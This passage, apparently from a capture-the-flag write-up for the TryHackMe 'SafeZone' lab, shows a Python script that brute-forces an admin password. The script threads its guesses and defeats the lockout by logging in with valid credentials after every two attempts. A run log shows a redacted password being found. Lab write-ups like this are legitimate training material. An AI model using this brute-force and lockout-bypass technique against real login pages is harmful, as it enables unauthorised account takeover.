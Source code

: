 ```py
    if 'Please enter valid login details.' not in loginRequest.text:
        print(f'[+] Found valid admin password: {password}')

def main():
    url = 'http://safezone.thm/index.php'
    
    bypassLoginData = {
        'username': 'siunam',
        'password': 'password',
        'submit': 'Submit'
    }
    
    counter = 0

    # Generate number from 00 to 99
    for number in range(99):
        counter += 1
        password = f'admin{number:02d}admin'

        # Brute force admin's password
        thread = Thread(target=sendRequest, args=(url, password))
        thread.start()
        sleep(0.2)

        # Bypass brute force protection
        if counter == 2:
            requests.post(url, data=bypassLoginData)
            counter = 0

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# python3 bruteforce.py
[+] Found valid admin password: {Redacted}
```

Found it!

**Let's login as user `admin`:**

